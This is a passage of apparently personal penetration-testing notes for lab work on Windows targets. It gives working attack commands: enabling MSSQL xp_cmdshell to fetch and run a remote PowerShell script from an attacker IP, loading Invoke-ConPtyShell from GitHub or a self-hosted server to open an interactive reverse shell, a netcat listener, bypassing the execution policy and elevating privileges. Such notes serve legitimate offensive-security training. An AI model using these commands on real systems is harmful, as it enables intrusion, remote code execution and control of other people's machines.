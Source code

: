 or from MSSQL for example
```sql
EXECUTE sp_configure 'show advanced options', 1; RECONFIGURE; EXECUTE sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://192.168.45.193/shell.ps1") | powershell -noprofile'
```

then catch it as described [[#ConPty upgraded interactive revshell|below]]
### ConPty upgraded interactive revshell

>NOTE: this doesnt work in GodPotato and possibly other low level privesc exploits

upload `/usr/share/nishang/Shells/Invoke-ConPtyShell.ps1` then rip it:

on target
```powershell
Invoke-ConPtyShell 192.168.45.198 3001
```

or one liner upload and rip in memory:
```powershell
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.45.198 3001

# or if no internet access on target, host it yourself and call it:
IEX(IWR http://192.168.45.198/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.45.198 3001
```

listener on kali:
```bash
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

more methods and manual upgrade in readme on [repo](https://github.com/antonioCoco/ConPtyShell)
### elevate interactive shell to admin (with rights)

```powershell
Start-Process powershell -Verb runas
```
should work with cmd as well?
### bypass script restriction

```powershell
powershell -ep bypass
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

### filter results into list (show all properties?)

```powershell
<command> | fl
Get-Acl -Path HKLM:SYSTEM\CurrentControlSet\Services\LanmanServer\DefaultSecurity\ | fl
```
